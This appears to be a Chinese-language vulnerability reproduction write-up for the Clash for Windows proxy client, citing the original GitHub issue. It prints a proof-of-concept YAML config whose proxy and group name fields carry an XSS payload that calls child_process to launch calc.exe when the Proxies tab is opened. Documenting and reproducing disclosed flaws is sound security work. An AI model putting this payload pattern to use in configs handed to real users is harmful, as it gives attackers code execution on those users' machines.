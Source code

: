 1. clash介绍

A Windows/macOS/Linux GUI based on Clash and Electron.

2. 漏洞复现

原漏洞发现作者pr链接：

https://github.com/Fndroid/clash_for_windows_pkg/issues/2710 里面包含了poc和复现方法。

本次本地复现来源于上述链接！

从以下链接下载Windows版本：
https://github.com/Fndroid/clash_for_windows_pkg/releases

在windows10虚拟机中打开：

2.2 poc

port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: :9090
proxies:
  - name: a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: socks5
    server: 127.0.0.1
    port: "17938"
    skip-cert-verify: true
  - name: abc
    type: socks5
    server: 127.0.0.1
    port: "8088"
    skip-cert-verify: true

proxy-groups:
  -
    name: <img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    type: select
    proxies:
    - a<img/src="1"/onerror=eval(`require("child_process").exec("calc.exe");`);>
    
    
    导入该poc：
    
    
    在当前界面点击：Proxies
    
    
    此时弹出计算器，漏洞利用成功。
